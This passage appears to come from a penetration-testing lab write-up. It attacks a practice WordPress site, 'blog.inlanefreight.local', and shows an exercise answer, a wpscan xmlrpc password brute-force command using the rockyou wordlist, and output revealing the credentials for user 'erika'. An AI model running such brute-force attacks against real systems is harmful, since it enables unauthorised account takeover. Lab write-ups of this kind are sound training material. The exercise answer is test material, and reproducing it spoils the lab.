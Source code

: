 Answer is:

```
frank.mclane
```

### Getting RCE
---

Now, our next step would be getting RCE, for this, we need some credentials, let's try brute forcing `erika`'s password:


```
wpscan --password-attack xmlrpc -t 50 -U erika -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

We get the following:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - erika / 010203 
Trying erika / kitkat Time: 00:00:20 < > (700 / 14345092) 0.00% ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: erika, Password: 010203

```

Got our credentials:

```
`erika`:`010203`
```

Now, let's log in:

![Pasted image 20250220144626.png](../../../IMAGES/Pasted%20image%2020250220144626.png)
